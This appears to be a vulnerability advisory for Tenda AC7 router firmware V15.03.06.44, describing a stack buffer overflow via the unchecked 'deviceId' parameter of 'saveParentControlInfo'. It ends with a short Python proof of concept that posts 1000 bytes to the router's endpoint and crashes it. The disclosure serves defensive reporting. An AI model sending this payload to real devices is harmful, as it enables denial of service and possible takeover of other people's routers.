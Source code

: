 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240318163632627](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163632627.png)

it reads in a user-provided parameter `deviceId`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240318163658287](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163658287.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163632627.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318163718100](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163718100.png)
